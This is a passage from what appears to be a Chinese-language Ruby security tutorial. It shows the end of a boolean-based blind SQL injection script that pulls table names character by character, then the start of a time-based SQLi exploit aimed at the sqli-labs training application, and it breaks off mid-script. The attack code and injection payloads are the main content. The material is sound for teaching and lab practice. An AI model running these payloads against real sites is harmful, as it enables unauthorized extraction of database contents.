 ```
     query = "1' AND (ASCII(SUBSTR((SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1),#{position},1)))=#{char}--+"
     result = send_bbsqli(url, query)
         if result.eql? 1
           puts "[+] Found character: ".bold + "#{char.to_s(16)} hex".green

           extracted <<  char.chr
           puts "[+] Extracted characters: ".bold + "#{extracted.join}".green
           break 
         end
   end
end

puts "\n\n[+] Final found string: ".bold + "#{extracted.join}".green 
```

## 基于时间的 SQLi Exploit 脚本

一个针对 [sqli-labs](https://github.com/Audi-1/sqli-labs) 可能存在漏洞的应用程序的基于时间的 SQLi 攻击。

```
#!/usr/bin/env ruby
# Boolean-based SQLi exploit
# Sabri Saleh | @KINGSABRI
#
require 'open-uri'

if ARGV.size < 1
  puts "[+] ruby #{__FILE__} <IP ADDRESS>"
  exit 0
else
  host = ARGV[0]
end

# Just colorizing outputs
class String
  def red; colorize(self, "\e[1m\e[31m"); end
  def green; colorize(self, "\e[1m\e[32m"); end
  def bold; colorize(self, "\e[1m"); end
  def colorize(text, color_code)  "#{color_code}#{text}\e[0m" end
end

# SQL injection
def send_tbsqli(url, query, time2wait)
  begin
    start_time = Time.now
    response = open(URI.parse( URI.encode("#{url}#{query}") ))
    end_time   = Time.now
    howlong    = end_time - start_time

    if howlong >= time2wait
      return 1 # TRUE
    end

  rescue Exception => e
    puts "[!] Failed to SQL inject #{e}".red 
    exit 0
  end
end

url = "http://#{host}/sqli-labs/Less-10/index.php?id="

puts "[*] Start Sending Boolean-based SQLi".bold
```
